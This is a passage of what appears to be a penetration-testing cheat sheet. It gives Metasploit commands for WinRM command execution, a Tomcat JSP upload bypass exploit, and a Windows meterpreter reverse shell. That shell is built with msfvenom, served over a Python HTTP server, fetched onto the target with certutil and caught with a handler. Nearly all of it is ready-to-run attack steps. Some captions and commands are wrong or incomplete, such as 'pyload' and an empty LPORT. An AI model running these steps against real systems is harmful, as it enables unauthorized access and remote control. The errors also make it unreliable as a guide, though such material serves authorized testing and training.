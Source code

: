 > This can be used to brute force usernames and their respective passwords.

```msfconsole
use auxiliary/winrm/winrm_cmd
set RHOST <ip-address>
set USERNAME <user>
set PASSWORD <pass>
set CMD whoami
run
```

> This can be used to run commands on the machine

```msfconsole
use exploit/windows/winrm/winrm_script_exec
set RHOST <ip-address>
set USERNAME <user>
set PASSWORD <pass>
set FORCE_VBS true
run
```

> This can be used to obtain a meterpreter session on the service.

#### Exploitation of Tomcat

```msfconsole
search type:exploit tomcat_jsp
use exploit/multi/http/tomcat_jsp_upload_bypass
set RHOST <ip-address>
set pyload java/jsp_shell_blind_tcp
set SHELL cmd
exploit
```

> This will give you a command shell session but not a meterpreter session on the system.

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<local-ip> LPORT=1234 -f exe > meterpreter.exe 
```

> This is a payload file that we will transfer on to the system and then we'll use it to get a meterpreter session.

```shell
sudo python -m SimpleHTTPServer 80
```

> Command to start a simple `HTTP File Server`.

```CMD
certutil -url http://<local-ip>/meterpreter.exe meterpreter.exe
```

> This can be used to download the file from the HTTP server with accessing the browser.

```msfconsole
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <local-ip>
set LPORT
run
```
